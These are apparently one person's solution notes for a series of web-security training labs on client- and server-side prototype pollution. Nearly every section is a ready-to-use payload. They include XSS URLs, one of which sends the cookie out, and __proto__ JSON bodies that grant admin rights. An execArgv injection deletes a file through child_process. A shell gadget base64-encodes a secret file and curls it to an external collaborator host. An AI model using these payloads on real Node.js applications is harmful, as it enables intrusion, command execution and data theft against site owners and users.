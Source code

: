 ## Lab: DOM XSS via client-side prototype pollution

This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
    
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
    
3. Combine these to call `alert()`.
    

You can solve this lab manually in your browser, or use DOM Invader to help you.

```plaintext
/?__proto__[transport_url]=data:javascript,alert(1)
```

## Lab: DOM XSS via an alternative prototype pollution vector

This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
    
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
    
3. Combine these to call `alert()`.
    

You can solve this lab manually in your browser, or use DOM Invader to help you.

```plaintext
/?__proto__.sequence=alert(1)-
/?__proto__.sequence=alert(1)*
```

## Lab: Client-side prototype pollution via flawed sanitization

This lab is vulnerable to DOM XSS via client-side prototype pollution. Although the developers have implemented measures to prevent prototype pollution, these can be easily bypassed.

To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
    
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
    
3. Combine these to call `alert()`.

```plaintext
Solution:

/?__pro__proto__to__[transport_url]=data:javascript,alert(1)
```


## Lab: Client-side prototype pollution in third-party libraries

```plaintext
Use the DOM Invader to detect the gadget to inject then change the body

<script>document.location="https://0a78003803bd337980ea4a4900f50098.web-security-academy.net/#__proto__[hitCallback]=alert(document.cookie);"</script>

And send
```

## Lab: Privilege escalation via server-side prototype pollution

Add prototype in change-address function

```http
POST /my-account/change-address HTTP/2
Host: 0a6600f70451a9d0811925ce00e20064.web-security-academy.net
Cookie: session=7NmBssOUD6b1p3OjEo3866RKVofORTuB
Content-Length: 202
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: */*
Origin: https://0a6600f70451a9d0811925ce00e20064.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a6600f70451a9d0811925ce00e20064.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"address_line_1":"Wiener HQ1","address_line_2":"One Wiener Way1","city":"Wienerville1","postcode":"BU1 1RP1","country":"UK1","sessionId":"7NmBssOUD6b1p3OjEo3866RKVofORTuB","__proto__":{"isAdmin":true}}
```

## Lab: Detecting server-side prototype pollution without polluted property reflection


```json

{"address_line_1":"Wiener HQ1","address_line_2":"One Wiener Way1","city":"Wienerville1","postcode":"BU1 1RP1","country":"UK1","sessionId":"mKL9dfqwFb82uWrwbu61KuoMSQhgPovI","__proto__":{"status":544}}
```

Then trigger Error by breaking json

## Lab: Bypassing flawed input filters for server-side prototype pollution

This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that you can use to escalate your privileges.
3. Access the admin panel and delete the user `carlos`.

You can log in to your own account with the following credentials: `wiener:peter`

#### Note

When testing for server-side prototype pollution, it's possible to break application functionality or even bring down the server completely. If this happens to your lab, you can manually restart the server using the button provided in the lab banner. Remember that you're unlikely to have this option when testing real websites, so you should always use caution.

```plaintext
Solution:

Bypass the __proto__ by using the constructor.prototype


{"address_line_1":"Wiener HQ1","address_line_2":"One Wiener Way1","city":"Wienerville1","postcode":"BU1 1RP1","country":"UK1","sessionId":"Abg6SfcIy1MXstQYiG6H6ShR4Ua88hsX","constructor":{"prototype":{"isAdmin":true}}}
```


## Lab: Remote code execution via server-side prototype pollution

This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

Due to the configuration of the server, it's possible to pollute `Object.prototype` in such a way that you can inject arbitrary system commands that are subsequently executed on the server.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget that you can use to inject and execute arbitrary system commands.
3. Trigger remote execution of a command that deletes the file `/home/carlos/morale.txt`.

In this lab, you already have escalated privileges, giving you access to admin functionality. You can log in to your own account with the following credentials: `wiener:peter`

```plaintex
Solution:

We can check that the change-address can be Prototype Poluttion.
Try to RCE with


{
	"address_line_1":"Wiener HQ1",
	"address_line_2":"One Wiener Way1",
	"city":"Wienerville1",
	"postcode":"BU1 1RP1",
	"country":"UK1",
	"sessionId":"u6oLwjAfk78zfrDswU9J3tbyHBKNBPk6",
	"__proto__":{
		"execArgv":[
			"--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
		]
	}
}
```

# Lab: Exfiltrating sensitive data via server-side prototype pollution

```plaintext
Exploit through the input and shell

POST /my-account/change-address HTTP/2
Host: 0ad7005e031c05a680381c5500fa0038.web-security-academy.net
Cookie: session=92WPrYPgxCpHtf1q7svmCe0AYe8Xp2je
Content-Length: 312
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: */*
Origin: https://0ad7005e031c05a680381c5500fa0038.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ad7005e031c05a680381c5500fa0038.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"address_line_1":"Wiener HQ1","address_line_2":"One Wiener Way1","city":"Wienerville1","postcode":"BU1 1RP1","country":"UK1","sessionId":"92WPrYPgxCpHtf1q7svmCe0AYe8Xp2je","__proto__":{"shell":"vim","input":":! cat /home/carlos/secret|base64| curl -d @- http://vxwhbdjkx4rcc0ly924xknuhc8iz6uuj.oastify.com \n"}}
```

